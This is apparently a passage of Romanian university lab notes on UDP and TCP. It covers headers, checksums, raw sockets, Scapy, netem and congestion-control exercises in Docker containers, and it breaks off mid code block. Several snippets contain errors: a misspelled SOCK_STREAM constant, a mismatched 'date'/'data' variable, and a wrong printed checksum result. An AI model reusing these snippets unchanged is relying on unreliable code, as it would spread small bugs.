## [UDP Datagram Header](https://tools.ietf.org/html/rfc768)

Toate câmpurile din header-ul UDP sunt reprezentate pe câte 16 biți sau 2 octeți:
```
  0               1               2               3              4
  0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+- -----------------
 |          Source Port          |       Destination Port        |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-   UDP header
 |          Length               |          Checksum             |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+- -----------------
 |                       payload/data                            |     mesaj 
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+- -----------------
```
- Portul sursă și destinație în acest caz poate fi între 0 și 65535, nr maxim pe 16 biți. [Portul 0](https://www.lifewire.com/port-0-in-tcp-and-udp-818145) este rezervat iar o parte din porturi cu valori până la 1024 sunt [well-known](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers#Well-known_ports) și rezervate de către sistemul de operare. Pentru a putea aloca un astfel de port de către o aplicație client, este nevoie de drepturi de administrator.
- Length reprezintă lungimea în bytes a headerului și segmentului de date. Headerul este împărțit în 4 cîmpuri de 16 biți, deci are 8 octeți în total.
- Checksum - suma în complement față de 1 a bucăților de câte 16 biți, complementați cu 1, vezi mai multe detalii [aici](https://en.wikipedia.org/wiki/Transmission_Control_Protocol#Checksum_computation) și [RFC1071 aici](https://tools.ietf.org/html/rfc1071) și [exemplu de calcul aici](https://www.youtube.com/watch?v=xWsD6a3KsAI). Este folosit pentru a verifica dacă un pachet trimis a fost alterat pe parcurs și dacă a ajuns integru la destinație.
Se calculează din concatenarea: unui pseudo-header de IP [adresa IP sursă, IP dest (32 biti fiecare), placeholder (8 biti setati pe 0), [protocol](https://en.wikipedia.org/wiki/List_of_IP_protocol_numbers) (8 biti), și lungimea în bytes a întregii secțiuni TCP sau UDP (16 biti)], TCP sau UDP header cu checksum setat pe 0, și secțiunea de date. 
- Payload sau data reprezintă datele de la nivelul aplicației. Dacă scriem o aplicație care trimite un mesaj de la un client la un server, mesajul nostru va reprezenta partea de payload.


Mai jos este redată secțiunea pentru care calculăm checksum la UDP: IP pseudo-header + UDP header + Data.
```
  0               1               2               3              4
  0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+- -----------------
 |                       Source Address                          |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                    Destination Address                        | IP pseudo-header
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |  placeholder  |    protocol   |        UDP/TCP length         |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+- -----------------
 |          Source Port          |       Destination Port        |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-   UDP header
 |          Length               |              0                |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+- -----------------
 |                       payload/data                            |  Transport data
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+- -----------------
```

<a name="checksum"></a> 
#### Exemplu de calcul pentru checksum
În exemplul următor presupunem că limităm suma de control la maxim 3 biți și facem adunarea numerelor a și b în complement față de 1:
```python
max_biti = 3

# 7 e cel mai mare nr pe 3 biti
max_nr = (1 << max_biti) - 1
print (max_nr, ' ', bin(max_nr))
7   0b111

a = 5 # binar 101
b = 5 # binar 101
'''
suma in complement de 1:
  101+
  101
-------
1|010
-------
  010+
  001
-------
 =011
valorile care depasesc 3 biti sunt mutate la coada si adunate din nou
'''
suma_in_complement_de_1 = (a + b) % max_nr
print (bin(suma_in_complement_de_1))
0b11

# checksum reprezinta suma in complement de 1 cu toti bitii complementati 
checksum = max_nr - suma_in_complement_de_1
print (bin(checksum))
0b100
# sau
checksum = ~(-suma_in_complement_de_1)
print (bin(checksum))
0b100
```

##### Exercițiu
Ce se întamplă dacă suma calculată este exact numărul maxim pe N biți?

<a name="#udp_socket"></a> 
### Socket UDP
În capitolul2 există exemple de [server](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/src/udp_server.py) și [client](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/src/udp_client.py) pentru protocolul UDP. Cele mai importante metode de socket udp sunt:
```python
# instantierea obiectului cu SOCK_DGRAM si IPPROTO_UDP
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, proto=socket.IPPROTO_UDP)

# recvfrom citeste din buffer un numar de bytest, ideal 65507
date, adresa = s.recvfrom(16)
# daca in buffer sunt mai mult de 16 bytes, recvfrom va citi doar 16 iar restul vor fi discarded

# functia sendto trimite bytes catre un tuplu (adresa, port)
s.sendto(b'bytes', ('adresa', port))
# nu stim daca mesajul ajunge la destinatie
``` 

<a name="udp_raw_socket"></a> 
### Raw Socket UDP
Există raw socket cu care putem citi sau trimite pachetele in formă binară. Explicații mai multe puteți găsi și [aici](https://opensourceforu.com/2015/03/a-guide-to-using-raw-sockets/). Pentru a instantia RAW Socket avem nevoie de acces cu drepturi de administrator. Deci este de preferat să lucrăm în containerele de docker: `docker-compose exec server bash`

```python
import socket

# instantierea obiectului cu SOCK_RAW si IPPROTO_UDP
s = socket.socket(socket.AF_INET, socket.SOCK_RAW, proto=socket.IPPROTO_UDP)

# recvfrom citeste din buffer 65535 octeti indiferent de port
date, adresa = s.recvfrom(65535)


# presupunem ca un client trimite mesajul 'salut' de pe adresa routerului: sendto(b'salut', ('server', 2222)) 
# datele arata ca niste siruri de bytes cu payload salut
print(date)
b'E\x00\x00!\xc2\xd2@\x00@\x11\xeb\xe1\xc6\n\x00\x01\xc6\n\x00\x02\x08\xae\t\x1a\x00\r\x8c6salut'

# adresa sursa pare sa aiba portul 0
print (adresa)
('198.10.0.1', 0)

# datele au o lungime de 33 de bytes
# 20 de bytes header IP, 8 bytes header UDP, 5 bytes mesajul salut
print(len(data))
33

# extragem portul sursa, portul destinatie, lungimea si checksum din header:
(port_s, port_d, lungime, chksum) = struct.unpack('!HHHH', data[20:28])
(2222, 2330, 13, 35894)

nr_bytes_payload = lungime - 8 # sau len(data[28:])

payload = struct.unpack('!{}s'.format(nr_bytes_payload), data[28:])
(b'salut',)

payload = payload[0]
b'salut'
``` 


<a name="#udp_scapy"></a> 
### Scapy UDP
Într-un terminal dintr-un container rulați scapy: `docker-compose exec client scapy`

```python
udp_obj = UDP()
udp_obj.sport = 4444
udp_obj.dport = 2222
udp_obj.show()

###[ UDP ]### 
  sport= 4444
  dport= 2222
  len= None
  chksum= None

network_layer = IP(dst='adresa_server')
pachet = network_layer / udp_obj

send(pachet)
```

#### Exercițiu
Porniți un UDP socket server pe un container iar pe containerul client rulați scapy pentru a trimite un pachet. 
Încercați același lucru și pe localhost. 
Captați pachetele pe localhost cu wireshark, ce adrese MAC sunt folosite?
Pe baza [explicațiilor de aici](https://stackoverflow.com/questions/41166420/sending-a-packet-over-physical-loopback-in-scapy), corectați problema trimiterii pachetelor de pe localhost.


<a name="tcp"></a> 
## [TCP Segment](https://tools.ietf.org/html/rfc793#page-15)
```
  0               1               2               3              4 Offs.
  0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 0 1 2 3 4 5 6 7 
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |          Source Port          |       Destination Port        |  1
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                        Sequence Number                        |  2
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                    Acknowledgment Number                      |  3
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 | Data  |0 0 0| |C|E|U|A|P|R|S|F|                               |
 |Offset | Res.|N|W|C|R|C|S|S|Y|I|            Window             |  4
 |       |     |S|R|E|G|K|H|T|N|N|                               |
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |           Checksum            |         Urgent Pointer        |  5
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                    Options   (if data offset > 5)             | 
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
 |                    Application data                           | 
 -+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-
```

Prima specificație a protocolului TCP a fost în [RFC793](https://tools.ietf.org/html/rfc793)
- Foarte bine explicat [aici](http://zwerd.com/2017/11/24/TCP-connection.html), [aici](http://www.firewall.cx/networking-topics/protocols/tcp.html) sau în aceste [note de curs](https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture16.pdf#page=25).
- [RFC2581](https://tools.ietf.org/html/rfc2581) conține informațiile cu privire la congestion control
- Source Port și Destination Port sunt porturile sursa și destinație pentru conexiunea curentă
- [Sequence și Acknowledgment](http://www.firewall.cx/networking-topics/protocols/tcp/134-tcp-seq-ack-numbers.html) sunt folosite pentru indicarea secvenței de bytes transmisă și notificarea că acea secvență a fost primită
- Data offset - dimensiunea header-ului în multipli de 32 de biți
- Res - 3 biți rezervați
- NS, CWR, ECE - biți pentru notificarea explicită a existenței congestionării [ECN](https://www.juniper.net/documentation/us/en/software/junos/cos/topics/concept/cos-qfx-series-explicit-congestion-notification-understanding.html), explicat mai bine și [aici](http://blog.catchpoint.com/2015/10/30/tcp-flags-cwr-ece/). NS e o sumă binară pentru sigurantă, CWR - indică necesitatea micsorării ferestrei de congestionare iar ECE este un bit de echo care indică prezența congestionarii.
- URG, ACK, PSH, RST, SYN, FIN - [flags](http://www.firewall.cx/networking-topics/protocols/tcp/136-tcp-flag-options.html)
- Window Size - folosit pentru [flow control](http://www.ccs-labs.org/teaching/rn/animations/flow/), exemplu [aici](http://www.inacon.de/ph/data/TCP/Header_fields/TCP-Header-Field-Window-Size_OS_RFC-793.htm)
- Urgent Pointer - mai multe detalii in [RFC6093](https://tools.ietf.org/html/rfc6093), pe scurt explicat [aici](http://www.firewall.cx/networking-topics/protocols/tcp/137-tcp-window-size-checksum.html).
- Checksum - suma în complement fată de 1 a bucăților de câte 16 biți, complementatî cu 1, vezi mai multe detalii [aici](https://en.wikipedia.org/wiki/Transmission_Control_Protocol#Checksum_computation) și [RFC1071 aici](https://tools.ietf.org/html/rfc1071)
Se calculează din concatenarea: unui pseudo-header de IP [adresa IP sursă, IP dest (32 biti fiecare), placeholder (8 biti setati pe 0), [protocol](https://en.wikipedia.org/wiki/List_of_IP_protocol_numbers) (8 biti), și lungimea în bytes a întregii secțiuni TCP sau UDP (16 biti)], TCP sau UDP header cu checksum setat pe 0, și secțiunea de date.

<a name="tcp_cong"></a> 
### Controlul congestionării
Pe lângă proprietățile din antet, protocolul TCP are o serie de opțiuni (explicate mai jos) și o serie de euristici prin care se încearcă detectarea și evitarea congestionării rețeleleor.

Explicațiile pe această temă pot fi urmărite și în [capitolul din curs despre congesion control](https://github.com/senisioi/computer-networks/tree/2020/curs#congestion) sau în [notele de curs de aici](https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture16.pdf#page=60). Un exemplu foarte clar este prezentat și [în acest tutorial](https://witestlab.poly.edu/blog/tcp-congestion-control-basics/)

Deși implementările mai noi de TCP pot să difere, principiile după care se ghidează euristicile de control al congestionării sunt aceleași, implementează principiul de creștere aditivă și descreștere multiplicativă și includ:

- [slow start & congestion avoidance](https://tools.ietf.org/html/rfc5681#page-4)
- [fast retransmit & fast recovery](https://tools.ietf.org/html/rfc5681#page-8)

TCP nu trimite pe rețea mai multe pachete decât variabila internă de congestion window cwnd și variabila din header-ul de la receiver (window) `min(cwnd, rwnd)`. 


**Slow start** presupune că începem cu o fereastră inițială în funcție de segmentul maxim. Apoi fereastra crește exponențial până apar pierderi pe rețea: `cwnd += min (N, MSS)`, unde N este numărul de octeți noi confirmați prin ultimul ACK (nu numărul total!). Acest lucru determină o creșterea exponențială a ferestrei de congestionare cwnd care mai este reprezentată ca o dublare. Codul de slow start poate fi verificat în [TCP Reno implementat în linux](https://github.com/torvalds/linux/blob/master/net/ipv4/tcp_cong.c#L383)


**Congestion avoidance** apare în momentul în care apar pierderi, se crește fereastra cu o fracțiune de segment `cwnd += MSS*MSS/cwnd` pentru evitarea blocării rețelei. Tot la pasul acesta se setează un prag Slow Start Thresh `ssthresh = max(FlightSize / 2, 2*MSS)`, unde FlightSize e dat de numărul de octeți trimiși și neconfirmați. Acest prag va fi folosit pe viitor pentru a trece din mecanismul de slow start (când pragul este atins) în mecanismul de evitare a congestiei. Implementarea din TCP Reno [este aici](https://github.com/torvalds/linux/blob/master/net/ipv4/tcp_cong.c#L403).

**Fast retransmit** se bazează pe faptul că un receptor trimite un ack duplicat atunci când primește un segment cu sequence number mai mare decât cel așteptat. Astfel, îl notifică pe emițător că a primit un segment out-of-order. Dacă un emițător primește 3 ack duplicate, atunci acesta trimite pachetul cu sequence number pornind de la valoarea acelui acknowledgement fără a mai aștepta după timeout (fast retransmit).

Algoritmul de fast recovery pornește ulterior pentru a crește artificial cwnd. Acesta se bazează pe presupunerea că receptorul totuși recepționează o serie de pachete din moment ce trimite confirmări duplicate iar pachetele pe care le recepționează pot fi cu număr de secvență mai mare. De asemenea după 3 confirmări duplicate, ssthreshold se recalculează ca fiind jumate din cwnd iar congestion window se înjumătățește de asemenea (descreștere multiplicativă) și se trece la congestion avoidance. 


Toate se bazează pe specificațiile din [RFC 2581](https://tools.ietf.org/html/rfc2581), [RFC5681](https://tools.ietf.org/html/rfc5681) sau [RFC 6582](https://tools.ietf.org/html/rfc6582) din 2012.

În toate cazurile de mai sus, TCP se bazează pe pierderi de pachete (confirmări duplicate sau timeout) pentru identificarea congestionării. Există și un mecanism de notificare explicită a congestionării care a fost adăugat [relativ recent](http://www.icir.org/floyd/ecn.html) și care nu a fost încă adoptat de toate implementările de TCP. Pentru asta avem flag-urile NS, CWR, ECE dar mai este necesară și implementarea la [nivelul IP](https://en.wikipedia.org/wiki/Explicit_Congestion_Notification#Operation_of_ECN_with_IP) a unui câmp pe care să-l folosească routerele atunci când devin congestionate, iar pentru asta sunt folosiți primii doi biți din ToS. Flag-urile din TCP sunt:

- [ECE (ECN-Echo)](https://tools.ietf.org/html/rfc3168) este folosit de către receptor pentru a-l notifica pe emițător să reducă fluxul de date.
- CWR (Congestion window reduced) e folosit de către emițător pentru a confirma notificarea ECE primită către receptor și că `cwnd` a scăzut.
- [NS](https://tools.ietf.org/html/draft-ietf-tsvwg-tcp-nonce-04) o sumă de control pe un bit care se calculează în funcție de sumele anterioare și care încearcă să prevină modificarea accidentală sau intenționată a pachetelor în tranzit.


<a name="tcp_options"></a> 
### Optiuni TCP
O [listă completă de opțiuni se găsește aici](http://www.networksorcery.com/enp/Protocol/tcp.htm#Options) si [aici](https://www.iana.org/assignments/tcp-parameters/tcp-parameters.xhtml). Optiunile au coduri, dimensiuni si specificatii particulare.
Probabil cele mai importante sunt prezentate pe scurt în [acest tutorial](http://www.firewall.cx/networking-topics/protocols/tcp/138-tcp-options.html): 
  - [Maximum Segment Size (MSS)](http://fivedots.coe.psu.ac.th/~kre/242-643/L08/html/mgp00005.html) definit [aici](https://tools.ietf.org/html/rfc793#page-18) seteaza dimensiunea maxima a segmentului pentru a se evita fragmetarea la nivelul Network.
  - [Window Scaling](https://cloudshark.io/articles/tcp-window-scaling-examples/) definit [aici](https://tools.ietf.org/html/rfc7323#page-8) - campul Window poate fi scalat cu valoarea Window * 2^WindowScaleOption; opțiune permite redimensionarea ferestrei până la (2^16 - 1) * 2^14. În linux si docker puteți dezactiva window scaling prin [sysctls](https://www.kernel.org/doc/Documentation/networking/ip-sysctl.txt) `net.ipv4.tcp_window_scaling=0`. 
  - [Selective Acknowledgment](https://packetlife.net/blog/2010/jun/17/tcp-selective-acknowledgments-sack/) 
definit [aici](https://tools.ietf.org/html/rfc2018#page-3) permite trimiterea unor ack selective in functie de secventa pachetelor pierdute
  - [Timestamps](http://fivedots.coe.psu.ac.th/~kre/242-643/L08/html/mgp00011.html) (pentru round-trip-time) definite [aici](https://tools.ietf.org/html/rfc7323#page-12) inregistreaza timpul de primire a confirmarilor. In felul acesta se verifica daca reteaua este congestionata sau daca fluxul de trimitere trebuie redus.
  - [No-Operation](https://tools.ietf.org/html/rfc793#page-18) - no operation este folosit pentru separare între opțiuni sau pentru alinierea octetilor.
  - [End of Option List](https://tools.ietf.org/html/rfc793#page-18) - defineste capatul listei de optiuni
  - [Multipath TCP (MPTCP)](https://datatracker.ietf.org/doc/draft-ietf-mptcp-rfc6824bis/) - extensie a protocolului TCP care este inca abordata ca zona de cercetare pentru a permite mai multe path-uri de comunicare pentru o sesiune TCP. Explicat [aici](https://www.slashroot.in/what-tcp-multipath-and-how-does-multipath-tcp-work) sau in acest [film](https://www.youtube.com/watch?v=k-5pGlbiB3U).

<a name="tcp_retransmission"></a>
### Exercițiu TCP Retransmission
TCP este un protocol care oferă siguranța transmiterii pachetelor, în cazul în care un stream de octeți este trimis, se așteaptă o confirmare pentru acea secvență de bytes. Dacă confirmarea nu este primită se încearcă retransmiterea. Pentru a observa retransmisiile, putem introduce un delay artificial sau putem ignora anumite pachete pe rețea. Folosim un tool linux numit [netem](https://www.cs.unm.edu/~crandall/netsfall13/TCtutorial.pdf), un tutorial este disponibil si [aici](https://www.excentis.com/blog/use-linux-traffic-control-impairment-node-test-environment-part-2).

Exemple netem:
```bash
# tc qdisc add/change/show/del
# introduce between 5% and 25% loss on eht0 interface
tc qdisc add dev eth0 root netem loss 5% 25%
# package corruption 5% probability on eth1 interface
tc qdisc add dev eth1 root netem corrupt 5%
# reorder packages on eth0 interface
tc qdisc add dev eth0 root netem reorder 25% 50%
# at a 10ms delay on eth1 interface
tc qdisc add dev eth1 root netem delay 10ms
# clean everything
tc qdisc del dev eth0 root

# to add multiple constraits, make a single command
tc qdisc add dev eth0 root netem loss 5% 25% corrupt 5% reorder 25% 50% delay 10ms
```

În containerul router, în [docker-compose.yml](https://github.com/senisioi/computer-networks/blob/2021/capitolul3/docker-compose.yml) exista o `command` care inițializează containerul router și care rulează `sleep infinity`. 
`router.sh` este copiat în directorul root `/` in container prin comanda `COPY src/*.sh /` din Dockerfile-lab3, deci modificarea lui locală nu afectează fișierul din container.

Introduceți în elocal un shell script `alter_packages.sh` care să execute comenzi de netem pe interfețele eth0 și eth1. Rulați-l în cadrul command după inițializarea routerului, dar înainte de sleep infinity.

Porniți TCP Server și TCP Client în containerul server, respectiv client și executați schimburi de mesaje. Cu `tcpdump -Sntv -i any tcp` sau cu Wireshark observați comportamentul protocolului TCP. Încercați diferite valori în netem.


<a name="tcp_cong_ex"></a>
### A) Exercițiu TCP Congestion Control
Pentru a observa fast retransmit, puteți executa în contanerul server `/eloca/src/examples/tcp_losses/receiver.py` și în containerul client `/eloca/src/examples/tcp_losses/sender.py`. Captați cu wireshark sau cu `tcpdump -Sntv` pachetele de pe containerul router, veți putea observa schimburile de mesaje. 
Pentru a observa fast retransmit, setați pe interfața eth1 din containerul router o regulă de reorder și loss `tc qdisc add dev eth1 root netem reorder 80% delay 100ms`

În docker-compose.yml este setată opțiunea de a folosi TCP Reno din sysctls, care folosește exact acest [fișier de linux](https://github.com/torvalds/linux/blob/master/net/ipv4/tcp_cong.c)
```
        sysctls:
          - net.ipv4.tcp_congestion_control=reno
```
Adăugați în sysctls următoarea linie care adaugă capabilitatea de Explicit Congestion Notification.
```
          - net.ipv4.tcp_ecn=1 
```
Ce observați diferit la 3-way handshake?

<a name="tcp_cong_plots"></a>
### B) Plot Congestion Graphs
Exercițiul se bazează pe [tutorialul prezentat de Fraida Fund](https://witestlab.poly.edu/blog/tcp-congestion-control-basics/) în care sunt extragese informațiile despre cwnd folosind aplicația din linia de comandă ss (socket statistics): `ss -ein dst IP`. Citiți cu atenție tutorialul înainte de a începe rezolvarea și asigurați-vă că aveți aplicațiile `ss` și `ts` în containerul de docker (rulați `docker-compose build` în directorul capitolul3).

Setați pe containerul router limitare de bandă cu netem, astfel încât să aveți un bottleneck de 1 Mbp/s și un buffer de 0.1 MB, în ambele direcții de comunicare:
```bash
docker-compose exec router bash -c "/elocal/capitolul3/src/bottleneck.sh"
```

Rulați pe containerul server o aplicație server iperf3
```bash
docker-compose exec server bash -c "iperf3 -s -1"
```

Rulați pe containerul client script-ul de shell care salvează valorile de timestamp și cwnd într-un csv.
```bash
docker-compose exec client bash -c "/elocal/capitolul3/src/capture_stats.sh"
```

Rulați pe containerul client o aplicație client care să comunice cu serverul timp de 60 de secunde și care să folosească TCP Reno:
```bash
docker-compose exec client bash -c "iperf3 -c 198.10.0.2 -t 60 -C reno"
```
După finalizarea transmisiunii, încetați execuția comenzii `capture_stats.sh` prin `Ctrl + C`.


La final veți putea vedea în directorul `capitolul3/congestion` un fișier `socket_stats.csv` care conține timestamp-ul și cwnd la fiecare transmisie. 

#### B1. Plot cwnd
Scrieți un script care citește fișierul csv și plotează (vezi matplotlib, seaborn sau pandas) cwnd în raport cu timestamp. Identificați fazele Slow Start, Congestion Avoidance, Fast Retransmit și Fast Recovery. 

#### B2. Plot cwnd pentru alte metode de control
Încercați și alte metode de congestion control schimbând `-C reno` în [vegas](https://en.wikipedia.org/wiki/TCP_Vegas), [BBR](https://en.wikipedia.org/wiki/TCP_congestion_control#TCP_BBR), [CUBIC](https://www.cs.princeton.edu/courses/archive/fall16/cos561/papers/Cubic08.pdf).


### C) Explicit Congestion Notification

Folosind netfilterque, pentru toate pachetele, introduceți în layer-ul de IP informația că rețeaua este congestionată și urmăriți pachetele dintre `receiver.py` și `sender.py`.
În [Capitolul 6](https://github.com/senisioi/computer-networks/tree/2021/capitolul6#scapy_nfqueue_basic) aveți un exemplu cu NFQUEUE care interceptează pachete și le modifică în tranzit. Încercați să setați flag-urile de explicit congestion notification pe fiecare pachet de la nivelul IP.


<a name="#tcp_socket"></a> 
### Socket TCP
În capitolul2 există exemple de [server](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/src/tcp_server.py) și [client](https://github.com/senisioi/computer-networks/blob/2021/capitolul2/src/tcp_client.py) pentru protocolul TCP. Cele mai importante metode sunt:
```python
# instantierea obiectului cu SOCK_STREAN si IPPROTO_TCP
s = socket.socket(socket.AF_INET, socket.SOCK_STREAN, proto=socket.IPPROTO_TCP)

# asculta pentru 5 conexiuni simultane ne-acceptate
s.listen(5)
# accepta o conexiune, initializeaza 3-way handshake
s.accept()

# citeste 2 bytes din buffer, restul de octeti raman in buffer pentru citiri ulterioare
date = s.recv(2)

# trimite 6 bytes: 
s.send(b'octeti')
``` 

<a name="#tcp_raw_socket"></a> 
### Raw Socket TCP
Un exemplu de 3-way handshake facut cu Raw Socket este în directorul [capitolul3/src/examples/raw_socket_handshake.py](https://github.com/senisioi/computer-networks/blob/2021/capitolul3/src/examples/raw_socket_handshake.py)
Putem instantia un socket brut pentru a capta mesaje TCP de pe orice port:
```python

# instantierea obiectului cu SOCK_RAW si IPPROTO_TCP
s = socket.socket(socket.AF_INET, socket.SOCK_RAW, proto=socket.IPPROTO_TCP)
data, adresa = s.recvfrom(65535)

# daca din router apelam catre server: sock.connect(('server', 2222)), acesta va primi:
(b'E\x00\x00<;\xb9@\x00@\x06r\xeb\xc6\n\x00\x01\xc6\n\x00\x02\xb1\x16\x08\xae;\xde\x84\xca\x00\x00\x00\x00\xa0\x02\xfa\xf0\x8cF\x00\x00\x02\x04\x05\xb4\x04\x02\x08\nSJ\xb6$\x00\x00\x00\x00\x01\x03\x03\x07', ('198.10.0.1', 0))

tcp_part = data[20:]
# ignoram headerul de IP de 20 de bytes si extrage header TCP fara optiuni
tcp_header_fara_optiuni = struct.unpack('!HHLLHHHH', tcp_part[:20])
source_port, dest_port, sequence_nr, ack_nr, doff_res_flags, window, checksum, urgent_ptr = tcp_header_fara_optiuni

print("Port sursa: ", source_port)
print("Port destinatie: ", dest_port)
print("Sequence number: ", sequence_nr)
print("Acknowledgment number: ", ack_nr)
data_offset = doff_res_flags >> 12
print("Data Offset: ", data_offset) # la cate randuri de 32 de biti sunt datele

offset_in_bytes = (doff_res_flags >> 12) * 4
if doff_res_flags >> 12 > 5:
  print("TCP header are optiuni, datele sunt abia peste  ", offset_in_bytes, " bytes")

NCEUAPRSF = doff_res_flags & 0b111111111 # & cu 9 de 1
print("NS: ", (NCEUAPRSF >> 8) & 1 )
print("CWR: ", (NCEUAPRSF >> 7) & 1 )
print("ECE: ", (NCEUAPRSF >> 6) & 1 )
print("URG: ", (NCEUAPRSF >> 5) & 1 )
print("ACK: ", (NCEUAPRSF >> 4) & 1 )
print("PSH: ", (NCEUAPRSF >> 3) & 1 )
print("RST: ", (NCEUAPRSF >> 2) & 1 )
print("SYN: ", (NCEUAPRSF >> 1) & 1 )
print("FIN: ", (NCEUAPRSF & 1))

print("Window: ", window)
print("Checksum: ", checksum)
print("Urgent Pointer: ", urgent_ptr)

optiuni_tcp = tcp_part[20:offset_in_bytes]

# urmarim documentul de aici: https://www.iana.org/assignments/tcp-parameters/tcp-parameters.xhtml


option = optiuni_tcp[0]
print (option) 
2 # option 2 inseamna MSS, Maximum Segment Size
'''
https://tools.ietf.org/html/rfc793#page-18
'''
option_len = optiuni_tcp[1]
print(option_len)
4 # MSS are dimensiunea 4
# valoarea optiunii este de la 2 la option_len
option_value = optiuni_tcp[2:option_len]
# MSS e pe 16 biti:
print(struct.unpack('!H', option_value))
1460 # MSS similar cu MTU

# continuam cu urmatoarea optiune
optiuni_tcp = optiuni_tcp[option_len:]
option = optiuni_tcp[0]
print (option) 
4 # option 4 inseamna SACK Permitted
'''
https://tools.ietf.org/html/rfc2018#page-3
https://packetlife.net/blog/2010/jun/17/tcp-selective-acknowledgments-sack/
+---------+---------+
| Kind=4  | Length=2|
+---------+---------+
'''
option_len = optiuni_tcp[1]
print(option_len)
2 # SACK Permitted are dimensiunea 2
# asta inseamna ca e un flag boolean fara alte valori aditionale

# continuam cu urmatoarea optiune
optiuni_tcp = optiuni_tcp[option_len:]
option = optiuni_tcp[0]
print (option) 
8 # option 8 inseamna Timestamps
'''
https://tools.ietf.org/html/rfc7323#page-12
+-------+-------+---------------------+---------------------+
|Kind=8 |Leng=10|   TS Value (TSval)  |TS Echo Reply (TSecr)|
+-------+-------+---------------------+---------------------+
    1       1              4                     4
'''
option_len = optiuni_tcp[1]
print(option_len)
10 # Timestamps are dimensiunea 10 bytes
# are doua valori stocate fiecare pe cate 4 bytes
valori = struct.unpack('!II', optiuni_tcp[2:option_len])
print (valori)
(1397405220, 0) # valorile Timestamp

# continuam cu urmatoarea optiune
optiuni_tcp = optiuni_tcp[option_len:]
option = optiuni_tcp[0]
print (option) 
1 # option 1 inseamna No-Operation
'''
asta inseamna ca nu folosim optiunea si trecem mai departe
https://tools.ietf.org/html/rfc793#page-18
'''

# continuam cu urmatoarea optiune
optiuni_tcp = optiuni_tcp[1:]
option = optiuni_tcp[0]
print (option) 
3 # option 3 inseamna Window Scale
'''
https://tools.ietf.org/html/rfc7323#page-8
+---------+---------+---------+
| Kind=3  |Length=3 |shift.cnt|
+---------+---------+---------+
'''
option_len = optiuni_tcp[1]
print(option_len)
3 # lungime 3, deci reprezentarea valorii este pe un singur byte
valoare = struct.unpack('!B', optiuni_tcp[2:option_len])
print(valoare)
7 # Campul Window poate fi scalat cu valoarea Window * 2^WindowScaleOption

# continuam cu urmatoarea optiune
optiuni_tcp = optiuni_tcp[option_len:]
option = optiuni_tcp[0]
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
IndexError: index out of range
# nu mai sunt optiuni, deci lista s-a incheiat
```

<a name="tcp_scapy"></a> 
### TCP object in scapy:
Un exemplu de handshake se afla în `src/examples/tcp_handshake.py` din cadrul acestui capitol.
```python
tcp_obj = TCP()
tcp_obj.show()
###[ TCP ]### 
  sport= 20
  dport= 80
  seq= 0
  ack= 0
  dataofs= None
  reserved= 0
  flags= S
  window= 8192
  chksum= None
  urgptr= 0
  options= {}

# tipurile de flag-uri acceptate:
print TCP.flags.names
FSRPAUECN
'FIN, SYN, RST, PSH, ACK, URG, ECE, CWR, NS'
# pentru a seta PSH si ACK, folosim un singur string:
tcp.flags = 'PA'

# opțiunile se pot seta folosind obiectul TCPOptions
print TCPOptions[1]
{'Mood': 25, 'MSS': 2, 'UTO': 28, 'SAck': 5, 'EOL': 0, 'WScale': 3, 'TFO': 34, 'AltChkSumOpt': 15, 'Timestamp': 8, 'NOP': 1, 'AltChkSum': 14, 'SAckOK': 4}

print TCPOptions[0]
